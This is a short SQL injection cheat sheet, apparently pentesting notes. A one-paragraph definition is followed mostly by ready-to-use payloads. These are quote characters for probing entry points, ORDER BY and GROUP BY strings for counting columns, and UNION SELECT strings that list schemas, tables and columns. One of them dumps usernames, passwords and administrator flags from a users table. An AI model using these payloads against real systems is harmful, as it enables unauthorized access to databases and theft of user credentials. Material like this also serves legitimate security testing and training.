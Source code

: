 # SQL Injection

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behaviour.

## Entry Point

```console

'
"
`
')
")
`)
'))
"))
`))
```

Look for error messages

## Union based

When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack.

### Determing Number of Columns**

**Order by**
```
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```

**Group by**
```
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```

**Union SELECT**
```
0 union select 1,2,3,4 -- -

or

1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worke
```
### Extract database names, table names and column names

```
0 union select 1,group_concat(schema_name),3,4 from information_schema.schemata-- -
0 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='marketplace'-- -
0 union select group_concat(column_name,'\n'),2,3,4 from information_schema.columns where table_name='users'-- -
0 union select 1,group_concat(id,':',username,':',password,':',isAdministrator,'\n'),3,4 from marketplace.users-- -
0 union select group_concat(column_name,'\n'),2,3,4 from information_schema.columns where table_name='messages'-- -
```

